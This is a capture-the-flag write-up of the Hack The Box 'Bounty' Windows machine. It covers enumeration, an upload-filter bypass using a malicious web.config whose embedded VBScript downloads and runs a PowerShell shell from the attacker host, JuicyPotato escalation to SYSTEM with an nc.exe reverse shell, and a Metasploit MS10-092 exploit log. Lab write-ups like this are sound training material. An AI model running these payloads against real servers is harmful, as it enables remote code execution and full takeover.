

# HTB "Bounty" Writeup


This was a windows box that taught me some new techniques and refreshed some old ones.

## Enumeration

Started out with nmap and found only 80 open indicating a webserver.

```bash
# Nmap 7.94 scan initiated Sat Aug 26 12:43:21 2023 as: nmap -sC -sV -vv -oA bounty 10.10.10.93
Nmap scan report for 10.10.10.93
Host is up, received syn-ack (0.041s latency).
Scanned at 2023-08-26 12:43:21 EDT for 16s
Not shown: 999 filtered tcp ports (no-response)
PORT   STATE SERVICE REASON  VERSION
80/tcp open  http    syn-ack Microsoft IIS httpd 7.5
|_http-title: Bounty
|_http-server-header: Microsoft-IIS/7.5
| http-methods:
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```


Browsing to the page indicates only an image of a wizard, named merlin.

Now I decided to do some dirbusting, since I didn't have a hostname or any other ports.

```bash
[~/htb/bounty]$ gobuster dir -u http://10.10.10.93 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx
===============================================================
Gobuster v3.5
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.10.93
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.5
[+] Extensions:              asp,aspx
[+] Timeout:                 10s
===============================================================
2023/08/28 15:07:51 Starting gobuster in directory enumeration mode
===============================================================
/transfer.aspx        (Status: 200) [Size: 941]
/*checkout*.aspx      (Status: 400) [Size: 11]
/*docroot*.aspx       (Status: 400) [Size: 11]
/*.aspx               (Status: 400) [Size: 11]
/http%3A%2F%2Fwww.aspx (Status: 400) [Size: 11]
/http%3A.aspx         (Status: 400) [Size: 11]
/UploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/UploadedFiles/]
/q%26a.aspx           (Status: 400) [Size: 11]
/**http%3a.aspx       (Status: 400) [Size: 11]
/*http%3A.aspx        (Status: 400) [Size: 11]
/uploadedFiles        (Status: 301) [Size: 156] [--> http://10.10.10.93/uploadedFiles/]
```

This gave us two locations, `transfer.aspx` which was a file upload and `/uploadedfiles` which is the directory where we could find our uploaded files.

## Footfold

A quick test reveals that jpg files are allowed, while aspx files are being blocked. I got around the filter using .aspx.jpg but this wouldn't execute. Getting a common list of extensions from burp and testing them out, it looks like .config is allowed.



I didn't really know what to do with this though, so I referred to the resourves from the walk through and found out that this is similar to overwriting the .htaccess files on a linux web server to execute code.
- https://github.com/JoshMorrison99/web.config-File-Upload-RCE-C:heck/blob/main/revshell.config
- https://soroush.me/blog/2014/07/upload-a-web-config-file-for-fun-profit/

I uploaded the following shell:

```
<?xml version="1.0" encoding="UTF-8"?>
<configuration>
   <system.webServer>
      <handlers accessPolicy="Read, Script, Write">
         <add name="web_config" path="*.config" verb="*" modules="IsapiModule" scriptProcessor="%windir%\system32\inetsrv\asp.dll" resourceType="Unspecified" requireAccess="Write" preCondition="bitness64" />
      </handlers>
      <security>
         <requestFiltering>
            <fileExtensions>
               <remove fileExtension=".config" />
            </fileExtensions>
            <hiddenSegments>
               <remove segment="web.config" />
            </hiddenSegments>
         </requestFiltering>
      </security>
   </system.webServer>
</configuration>
<%@ Language=VBScript %>
<%
  call Server.CreateObject("WSCRIPT.SHELL").Run("cmd.exe /c powershell.exe -c iex(new-object net.webclient).downloadstring('http://10.10.14.19/shell.ps1')")
%>
```

The shell.ps1 file is the standard nishang one line shell.

Now we have code execution.
## Privesc

I went to get the flag, but alas, it wasn't there!

Turns out it was just hidden and could be revealed with some Powershell trickery (it is on my list to learn more powershell).

Now it was time to do some standard enumeration on the box.

Getting my users privileges revealed SeImpersonate, which is an indicator a Potato attack may be possible.

```
PS C:\users\merlin\desktop> whoami /priv

PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                               State
============================= ========================================= ========
SeAssignPrimaryTokenPrivilege Replace a process level token             Disabled
SeIncreaseQuotaPrivilege      Adjust memory quotas for a process        Disabled
SeAuditPrivilege              Generate security audits                  Disabled
SeChangeNotifyPrivilege       Bypass traverse checking                  Enabled
SeImpersonatePrivilege        Impersonate a client after authentication Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set            Disabled
```

I loaded up my potato, started up my listener, and then I was root.

```
PS C:\users\merlin\desktop> ./JuicyPotato.exe -l 1337 -c "{4991d34b-80a1-4291-83b6-3328366b9097}" -p c:\windows\system32\cmd.exe -a "/c c:\users\merlin\desktop\nc.exe -e cmd.exe 10.10.14.19 7777" -t *
Testing {4991d34b-80a1-4291-83b6-3328366b9097} 1337
....
[+] authresult 0
{4991d34b-80a1-4291-83b6-3328366b9097};NT AUTHORITY\SYSTEM

[+] CreateProcessWithTokenW OK
```

systeminfo (also the guide when I looked afterwards) revealed that this was a quite out of date version of windows, Windows 2008. We can run the metasploit exploit suggester module after getting a session and seeing what else we find

```bash
msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.10.14.19 LPORT=5555 -f exe > shell.exe
```

MS10-092 was one of many potential exploits and this one works.

```
msf6 exploit(windows/local/ms10_092_schelevator) > run

[*] Started reverse TCP handler on 10.10.14.19:6666
[*] Running automatic check ("set AutoCheck false" to disable)
[!] The service is running, but could not be validated.
[*] Preparing payload at C:\Windows\TEMP\vVygyJpVGdTPU.exe
[*] Creating task: O0LGFkLqDWzc9
[*] Reading the task file contents from C:\Windows\system32\tasks\O0LGFkLqDWzc9...
[*] Original CRC32: 0xd2ff3655
[*] Final CRC32: 0xd2ff3655
[*] Writing our modified content back...
[*] Validating task: O0LGFkLqDWzc9
[*] Disabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Enabling the task...
[*] SUCCESS: The parameters of scheduled task "O0LGFkLqDWzc9" have been changed.
[*] Executing the task...
[*] Sending stage (240 bytes) to 10.10.10.93
[*] Command shell session 3 opened (10.10.14.19:6666 -> 10.10.10.93:49175) at 2023-08-28 16:04:39 -0400
[*] Deleting task O0LGFkLqDWzc9...


Shell Banner:
Microsoft Windows [Version 6.1.7600]
-----


C:\Windows\system32>whoami
whoami
nt authority\system
```

I got the flag at this point and got out of there.
